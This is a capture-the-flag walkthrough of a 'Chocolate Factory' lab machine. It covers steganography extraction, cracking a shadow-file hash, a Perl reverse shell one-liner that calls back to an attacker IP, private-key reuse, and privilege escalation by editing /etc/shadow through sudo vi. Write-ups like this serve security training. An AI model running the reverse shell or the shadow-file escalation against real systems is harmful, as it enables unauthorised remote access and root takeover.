 # Chocolate Factory

http://factory.thm<br>
![factory.thm](./imgs/factory.thm.png)<br>
<hr>

![key](./imgs/key.png)<br>
```
strings key_rev_key

Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
...
```
<hr>

`FTP` server:<br>
 - `gum_room.jpg`

`steghide extract -sf gum_room.jpg`<br>
![b64.txt](./imgs/b64.png)<br>
From the name it is obvious that file is encoded in `base64`. Decode it and you will see content that looks like a Linux `shadow` file. And even get a hash.
```
...
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

Let's break it down
```
Username: charile
Hash: $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/
Password: cn7824
```
![john](./imgs/charlie_passwd.png)
<hr>

I used the creds on the website and here is what I got:<br>
![home](./imgs/home.png)<br>

Executed `ls -la` in the command input<br>
![ls -la](./imgs/ls-la.png)<br>

Started `nc` listener and put a `perl` reverse shell command in the command input.
```
perl -e 'use Socket;$i="10.2.116.12";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```
<hr>

I went to `/home/charlie` and found this:<br>
![teleport](./imgs/teleport.png)<br>

Where file `teleport` is a private key. I used the private key and got charlie's shell.<br>
![chalie](./imgs/charlie_shell.png)<br>
<hr>

I executed `sudo -l` and found that I was able to run `vi` as root<br>
![vi](./imgs/vi.png)<br>

So I opened `/etc/shadow` with `vi`
```
sudo /usr/bin/vi /etc/shadow
```
And change the hash of root to `WVLY0mgH0RtUI` which equals `mrcake`. Then `su root` and got root shell. We got file `/root/root.py`. Execute it:
```
python root.py
pass the key from the first question.
```

Get the flag.